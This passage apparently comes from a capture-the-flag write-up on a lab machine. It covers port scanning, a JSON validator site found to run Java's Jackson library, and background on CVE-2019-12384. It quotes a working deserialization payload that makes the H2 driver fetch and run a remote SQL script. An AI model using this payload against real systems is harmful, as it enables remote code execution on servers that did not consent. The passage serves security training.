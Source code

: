    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) and [Apache](https://packages.ubuntu.com/search?keywords=apache2)
versions, the host is likely running Ubuntu 20.04 Focal.

### Website - TCP 80

The site is a JSON Beautifier and Validator:

![image-20210209150424105](https://0xdfimages.gitlab.io/img/image-20210209150424105.png)

I verified the site is running php by loading `index.php`, and getting the
same page.

I can enter some basic JSON like `{"foo": "bar", "baz": 1}` and it will
beautify:

![image-20210209150723897](https://0xdfimages.gitlab.io/img/image-20210209150723897.png)

Giving the same data in Validate returns an error:

![image-20210209150825757](https://0xdfimages.gitlab.io/img/image-20210209150825757.png)

The full error is:

>
>     Validation failed: Unhandled Java exception:
> com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected
> token (START_OBJECT), expected START_ARRAY: need JSON Array to contain
> As.WRAPPER_ARRAY type information for class java.lang.Object
>  

So the backend is using Java to validate the JSON, specifically [this
package](https://github.com/FasterXML/jackson-databind), Jackson.

## Shell as pericles

### CVE-2019-12384

#### Background

There were a bunch of CVEs for Jackson. In fact, the hardest part of this box
was finding the right one that worked here. Eventually I found [this
post](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) which
contained this payload as a test:

    
    
    ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
    

This is taking advantage of a JSON deserialization vulnerability. In this
proof of concept, they are using the H2 database driver (which should be
present in most Java deployments that use a database, which is most). This
driver can take an SQL script to run, which is typically used benignly to
support database migrations.
